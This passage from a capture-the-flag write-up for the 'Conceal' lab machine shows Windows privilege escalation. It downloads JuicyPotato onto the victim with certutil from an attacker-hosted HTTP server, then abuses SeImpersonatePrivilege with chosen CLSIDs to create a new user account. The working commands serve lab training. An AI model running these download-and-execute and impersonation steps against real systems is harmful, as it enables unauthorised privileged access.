 > **Victime Machine**:

```cmd
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
# :)

whoami /priv
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With **SeImpersonatePrivilege** enabled, there is a possibility that the system is vulnerable to **RottenPotatoNG**, so I will transfer the **Juicy Potato** version of **[ohpe](https://github.com/ohpe/juicy-potato){:target="_blank"}** to the victim machine. The execution is successful and I can now try to execute commands impersonating an elevated user, but on my first attempt I'm unsuccessful as there is a problem with the **CLSID**. With `SystemInfo` I get the **OS version**, this way I can search for a **[valid CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md){:target="_blank"}** in the same **ohpe** repository, now I succeed to execute commands (create a new account) once I specify the CLSID with the **-c** parameter.

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil -f -urlcache -split http://10.10.14.14/JP.exe

.\JP.exe
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user add oldb0y oldb0y123!$ /add"
# COM -> recv failed with error: 10038
# CLSID - Class Identifier error

systemInfo
# OS Name:                   Microsoft Windows 10 Enterprise

.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123!$ /add" -c "{924DC564-16A6-42EB-929A-9A61FA7DA06F}"
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123!$ /add" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
net user
# :)
```
